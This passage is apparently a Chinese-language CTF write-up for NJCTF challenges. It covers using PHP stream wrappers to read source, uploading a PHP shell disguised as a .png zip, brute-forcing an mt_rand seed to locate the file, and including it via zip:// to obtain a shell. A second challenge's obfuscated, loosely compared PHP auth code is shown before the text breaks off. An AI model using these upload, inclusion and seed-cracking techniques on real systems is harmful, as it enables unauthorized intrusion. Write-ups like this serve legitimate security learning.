 脸黑，比赛的时候脚本没跑完😢

这题的思路，和以前做的一个题思路很像（HCTF的兵者多诡？）。

先伪协议读源码，然后上传一个php压缩包（改名为png），再伪协议（zip或phar）读取马，得到shell。这次的主要问题在于，题目把路径加了一个前缀，需要爆破随机数种子才能利用。

爆破随机数种子(session_id为我们的 PHPSESSID，hash为SESSI0N)

记得在文件头设置一下运行时间无限ini_set('max_execution_time', '0');

```php
for($i=0;$i<=999999999;$i++){
    $seed =$i;
    mt_srand($seed);
    $ss = mt_rand();
    $session_id="kfm3fk6doepaefpaa9al32h8j7";
    $hash1 = md5($session_id. $ss);
    $hash2 = "72a6022fd34bf1980ea8d20aafa3bd2a";
    if($hash1===$hash2){
        echo "we get seed:".$i;
        break;
    }
    if($i==999999999){
        echo "run down!we can't get it!";
        break;
    }
}
echo './uP1O4Ds/' . random_str() . '_';
```

运行结果：

![getseed](https://mo-xiaoxi.github.io/img/post/NJCTF/getseed.png)

http://218.2.197.235:23735//index.php?page=zip://uP1O4Ds/hz3CZpGyYKnjH51V6fVYvCmpGXrIzeWm_test.png%23test

再请求一下即可

![getshell](https://mo-xiaoxi.github.io/img/post/NJCTF/getshell.png)

连接一下，看一波

![upload](https://mo-xiaoxi.github.io/img/post/NJCTF/upload.png)

这里有一个小技巧，可以迅速爆破mt_seed:[http://www.openwall.com/php_mt_seed/](http://www.openwall.com/php_mt_seed/)

### Wallet

扫一波目录，能得到一个www.zip的文件。

（弱密码永远跑不出来orz。。。后来，别人给了个弱密码njctf2017）

然后，代码有混淆，随便找个网站解开混淆



```Php
<?php
 require_once("db.php"); 
 $auth = 0; 
 if (isset($_COOKIE["auth"])) { 
 	$auth = $_COOKIE["auth"]; 
 	$hsh = $_COOKIE["hsh"]; 
 	if ($auth == $hsh) { 
 		$auth=0; 
 		}else if (sha1((string)$hsh) == md5((string)$auth)) { 
 			$auth = 1; 
 		}else{ 
 			$auth=0; 
 		} 
```